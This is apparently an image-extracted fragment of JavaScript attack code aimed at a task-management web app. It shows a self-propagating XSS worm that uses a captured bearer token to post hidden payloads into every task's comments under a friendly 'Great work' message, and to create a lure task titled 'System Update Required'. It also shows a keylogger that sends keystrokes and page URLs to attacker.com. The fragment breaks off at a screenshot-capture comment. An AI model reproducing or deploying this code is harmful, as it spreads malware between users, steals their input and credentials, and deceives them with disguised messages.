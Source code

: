 ```javascript
                fetch(API_BASE + '/tasks', {
                    headers: { 'Authorization': 'Bearer ' + token }
                })
                .then(r => r.json())
                .then(tasks => {
                    tasks.forEach(task => {
                        // Inject worm into task comments
                        const wormComment = \`
                            <div style="display:none">
                                \${this.payload}
                            </div>
                            <p>Great work on this task! 👍</p>
                        \`;
                        
                        fetch(API_BASE + '/comments/task/' + task.id, {
                            method: 'POST',
                            headers: {
                                'Authorization': 'Bearer ' + token,
                                'Content-Type': 'application/json'
                            },
                            body: JSON.stringify({ content: wormComment })
                        });
                    });
                });
                
                // Create new infected tasks
                const infectedTask = {
                    title: 'System Update Required',
                    description: \`
                        <div>Please review the system update details below:</div>
                        \${this.payload}
                    \`,
                    priority: 'HIGH'
                };
                
                fetch(API_BASE + '/tasks', {
                    method: 'POST',
                    headers: {
                        'Authorization': 'Bearer ' + token,
                        'Content-Type': 'application/json'
                    },
                    body: JSON.stringify(infectedTask)
                });
            };
            
            // Keylogger functionality
            let keystrokes = '';
            document.addEventListener('keypress', (e) => {
                keystrokes += e.key;
                if (keystrokes.length > 100) {
                    fetch('https://attacker.com/keylog', {
                        method: 'POST',
                        body: JSON.stringify({
                            keys: keystrokes,
                            url: window.location.href,
                            timestamp: Date.now()
                        })
                    });
                    keystrokes = '';
                }
            });
            
            // Screenshot capture (if supported)
```